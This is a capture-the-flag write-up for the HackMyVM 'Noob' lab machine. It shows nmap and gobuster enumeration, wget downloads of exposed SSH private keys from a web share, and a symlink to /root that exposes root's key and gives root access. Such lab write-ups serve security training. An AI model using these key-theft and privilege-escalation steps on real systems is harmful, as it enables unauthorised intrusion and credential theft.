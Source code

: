 ```yaml
---
title: "Noob  Writeup HackMyVM"
date: 2024-06-18 00:00:00 +0530
categories: [Write Up,  HackMyVM] 
tags: [Privilege Escalation, SSH, rsa key, symbolic link]
---
```


![Alt Text](/img/noob/1.png)


<strong>The penetration test began with a nmap scan, which revealed that ports 22 (SSH) and 65530 were open. Further enumeration using Gobuster on port 65530 led to the discovery of the nt4share directory. SSH connection was established using a key found in nt4share. To escalate privileges, a symbolic link was created, granting access to the root account. The penetration test culminated in accessing the root account via SSH using the newly acquired key, enabling the retrieval of the flags.</strong>


<a href="https://hackmyvm.eu/machines/machine.php?vm=Noob" target="_blank" rel="noopener noreferrer">vm link</a>

#### >> Create a variable for the IP to avoid retyping the address each time
```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ip=192.168.0.124
```
<br>
## Enumeration
<br>

#### >> Scan for open ports and services using nmap
 - also try ```nmap -sCV -p22,65530 -n -Pn -vvv 192.168.0.124 -oN target```

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ sudo nmap -sC -sV -p- -T4 -A -O $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-18 06:50 IST
Nmap scan report for 192.168.0.124
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:6a:8e:22:cd:dd:75:52:a6:0a:46:06:bc:df:53:0f (RSA)
|   256 c2:48:46:33:d4:fa:c0:e7:df:de:54:71:58:89:36:e8 (ECDSA)
|_  256 5e:50:90:71:08:5a:88:62:7e:81:07:c3:9a:c1:c1:c6 (ED25519)
65530/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
MAC Address: 08:00:27:6C:C3:C4 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.98 ms 192.168.0.124

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds

```

- Port 22 & 65530 are open

![Alt Text](/img/noob/2.png)

## Gobutser port 65530

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ gobuster dir -u http://$ip:65530/ -w /wordlists/directory-list-2.3-medium.txt -x php,txt,html,css,js,zip,bak -t 200
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.124:65530/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,css,js,zip,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 19]
/http%3a%2f%2fwww     (Status: 301) [Size: 45] [--> /http:/www]
/http%3a%2f%2fwww.bak (Status: 301) [Size: 49] [--> /http:/www.bak]
/http%3a%2f%2fwww.php (Status: 301) [Size: 49] [--> /http:/www.php]
/http%3a%2f%2fwww.txt (Status: 301) [Size: 49] [--> /http:/www.txt]
/http%3a%2f%2fwww.html (Status: 301) [Size: 50] [--> /http:/www.html]
/http%3a%2f%2fwww.css (Status: 301) [Size: 49] [--> /http:/www.css]
/http%3a%2f%2fwww.js  (Status: 301) [Size: 48] [--> /http:/www.js]
/http%3a%2f%2fwww.zip (Status: 301) [Size: 49] [--> /http:/www.zip]
/http%3a%2f%2fyoutube (Status: 301) [Size: 49] [--> /http:/youtube]
/http%3a%2f%2fswik.html (Status: 301) [Size: 51] [--> /http:/swik.html]
/http%3a%2f%2fswik.css (Status: 301) [Size: 50] [--> /http:/swik.css]
/http%3a%2f%2fswik.js (Status: 301) [Size: 49] [--> /http:/swik.js]
/http%3a%2f%2fswik.zip (Status: 301) [Size: 50] [--> /http:/swik.zip]
/http%3a%2f%2fswik.bak (Status: 301) [Size: 50] [--> /http:/swik.bak]
/http%3a%2f%2fswik.php (Status: 301) [Size: 50] [--> /http:/swik.php]
/nt4share             (Status: 301) [Size: 45] [--> /nt4share/]                                <<<
Progress: 1661144 / 1661152 (100.00%)
===============================================================
Finished
===============================================================
                                                                
```
![Alt Text](/img/noob/3.png)

![Alt Text](/img/noob/4.png)

- Chek keys
- Let's try `SSH` with `id_rsa`

`wget http://$ip:65530/nt4share/.ssh/id_rsa`

`chmod 600 id_rsa`


## Establish SSH connection

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ssh -i id_rsa adela@$ip
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 17 22:18:48 2024 from 192.168.0.190
adela@noob:~$ id
uid=1000(adela) gid=1000(adela) groups=1000(adela),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
adela@noob:~$ 
```

## Privilege Escalation

#### >> Creating a symbolic link named root that points to the root directory (/root) allows for easy access to the root directory from another location in the filesystem.

```shell                                                                           
adela@noob:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
adela:x:1000:1000:adela,,,:/home/adela:/bin/bash
adela@noob:~$ ln -s /root root
adela@noob:~$ ls -al
total 28
drwxr-xr-x 3 adela adela 4096 Jun 17 21:02 .
drwxr-xr-x 3 root  root  4096 Jul 11  2021 ..
-rw-r--r-- 1 adela adela  220 Jul 11  2021 .bash_logout
-rw-r--r-- 1 adela adela 3526 Jul 11  2021 .bashrc
-rw-r--r-- 1 adela adela  807 Jul 11  2021 .profile
lrwxrwxrwx 1 adela adela    5 Jun 17 21:02 root -> /root                                       <<<
drwx------ 2 adela adela 4096 Jul 13  2021 .ssh
-rw------- 1 adela adela   50 Jul 14  2021 .Xauthority 
```
- `lrwxrwxrwx 1 adela adela    5 Jun 17 21:02 root -> /root` symbolic link created.
- Accessing the `nt4share` again. We have a new directory `root`
![Alt Text](/img/noob/5.png)

![Alt Text](/img/noob/6.png)

#### >> Let's get `id_rsa` from `root` and `SSH` it.

`wget http://$ip:65530/nt4share/root/.ssh/id_rsa`


```shell                                                                           
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ssh -i id_rsa root@$ip
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 17 21:10:45 2024 from 192.168.0.190
root@noob:~# ls
root.txt  user.txt
root@noob:~# 

```
- Now we have both the flags

<br>
<center>pwned</center>